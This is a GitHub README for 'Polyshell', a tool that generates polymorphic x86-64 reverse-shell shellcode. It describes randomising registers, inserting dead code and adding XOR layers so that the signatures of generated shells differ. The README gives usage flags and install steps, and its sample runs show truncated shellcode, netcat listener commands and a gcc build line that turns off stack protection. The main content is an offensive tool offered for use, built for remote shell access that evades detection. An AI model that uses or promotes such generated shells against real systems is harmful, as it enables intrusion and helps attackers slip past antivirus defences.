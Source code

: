
# Polyshell

Simple polymorphic reverse shell generator.\
\
This tool will randomly choose registry between `r8` to `r15` to handle the different file descriptors for the reverse shell.\
 It will also put some dead code within the shellcode so that none of the generated shell's signatures can't be identical.

```

     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
usage: main.py [-h] -i IP -p PORT [-e {big,little}] [-x XORNB] [-b] [-hs] [-v] [-o OUTFILE]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 Address
  -p PORT, --port PORT  Port to bind
  -e {big,little}, --endian {big,little}
                        Endianness of the target, default=little
  -x XORNB, --xornb XORNB
                        Number of xor to put, default=10
  -b, --build           Compile the C file
  -hs, --hide-shellcode
                        Hide the shellcode printing
  -v, --verbose         Add verbosity printing
  -o OUTFILE, --outfile OUTFILE
                        Outfile shellcode's namee
```
## Requirements

`python3.X` and additionnaly `gcc` if you desire to compile the C file.


## Installation

```bash
git clone https://github.com/Vadimador/polyshell
cd polyshell
./main.py
```

You can add the polyshell main.py to path one of your PATH to execute it from anywhere.
```
cd polyshell
ln -s $(readlink -f main.py) ~/.local/bin/polyshell
```
    
## Run

### Create a reverse shell and build it, save the shellcode in a TXT file

```bash
┌[t4yki@d3v]
└[~]> polyshell -i 127.0.0.1 -p 6666 -b -v


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x48\x31\xc0\x48\x31...\x0f\x05


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 6666
 ```

 ### Create a reverse shell and modify the number of xor and hide shellcode printing
```bash
┌[Vadimador@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 1024 -x 54 -b -v



     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31\xf6...\xff\x0f\x05    


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 1024
```

### Create a reverse shell but don't build it, just save it to C and TXT file.

```bash
┌[Ninuuu@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 4444 -x 88 -v


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31...\x0f\x05


 [+] C file to test the shellcode : reverse_shell.c
 [+] Build : gcc reverse_shell.c -o shell -fno-stack-protector -z execstack -no-pie
```
